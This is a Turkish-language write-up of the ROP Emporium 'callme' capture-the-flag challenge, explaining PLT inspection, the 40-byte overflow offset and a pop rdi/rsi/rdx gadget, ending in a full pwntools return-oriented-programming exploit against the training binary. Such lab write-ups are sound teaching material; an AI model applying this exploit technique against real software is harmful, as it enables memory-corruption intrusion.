







# ROP Emporium `callme` Writeup



x64 mimaride programımızı indirdikten sonra web sayfasını detaylı incelersek bize bölümü geçmek için `callme_one` `callme_two` `callme_three` isimli 3 tane fonksiyonumuz olduğunu ve bunların herbirine parametre olarak (1,2,3) gönderdiğimiz zaman `encrypted_flag.txt` dosyasını okuyabileceğimize dair bir ipucu görebiliriz. Üstteki görselde ise bize `PLT` hakkında bişiler olduğunu söylemiş.

O halde `objdump -d callme` ile programımızın `Disassembly of section .plt:` bölümünü inceleyelim.






Gördüğünüz üzere çağırmamız gereken fonksiyonlar burada. Peki bu fonksiyonlar nereden geliyor ?



Özel bir libc kütüphanesi kullanıyor. `libcallme.so`

`NOT :` .plt içerisinde bulunan fonksiyonlar libc kütüphanesi/kütüphaneleri içerisinden gelmektedir



`NX` ve `ASLR` korumalarımız açık. Offsetimiz 40 byte.

x64 mimarili sistemlerde `rdi` ilk argüman `rsi` ikinci argüman `rdx` üçüncü argümanı almaktadır. Eğer `pop rdi; pop rsi; pop rdx; ret` komutunu çalıştıran bir gadget bulabilirsek sırasıyla argümanlarımıza bizden istenen `1,2,3` sayılarını yazabilir ve daha sonra fonksiyonlarımızı çağırıp istenen şekilde çalıştırabiliriz.



Artık elimizde gerekli bilgiler olduğuna göre exploitimizi yazabiliriz.

```python

from pwn import *

elf = process('callme')
# pop rdi ; pop rsi ; pop rdx ; ret
rop = p64(0x0000000000401ab0)

callme_one = p64(0x00401850)
callme_two = p64(0x00401870)
callme_three = p64(0x00401810)

one = p64(1)
two = p64(2)
three = p64(3)

func = rop
func += one
func += two
func += three

# callme_one(1,2,3) callme_two(1,2,3) callme_three(1,2,3)
payload = ('A'*40).encode()
payload += func
payload += callme_one
payload += func
payload += callme_two
payload += func
payload += callme_three

print (payload)
print (elf.recv())
elf.sendline(payload)
print (elf.recvall())

```



Ve flag'i başarılı bir şekilde okumuş olduk
